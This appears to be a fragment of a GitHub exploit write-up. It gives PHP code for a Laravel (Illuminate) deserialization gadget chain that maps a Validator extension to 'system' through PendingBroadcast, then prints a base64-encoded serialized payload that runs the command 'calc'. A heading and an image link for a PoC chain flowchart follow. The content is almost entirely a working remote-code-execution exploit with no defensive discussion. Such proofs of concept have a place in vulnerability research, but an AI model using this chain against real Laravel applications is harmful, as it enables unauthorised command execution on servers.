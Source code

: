 ### exp
```php
<?php
namespace Illuminate\Validation {
    class Validator {
       public $extensions = [];
       public function __construct() {
            $this->extensions = ['' => 'system'];
       }
    }
}

namespace Illuminate\Broadcasting {
    use  Illuminate\Validation\Validator;
    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct($cmd)
        {
            $this->events = new Validator();
            $this->event = $cmd;
        }
    }
    echo base64_encode(serialize(new PendingBroadcast('calc')));
}
?>
```


### POC链利用流程图
<img src="./images/poc-2-2.png" alt="">
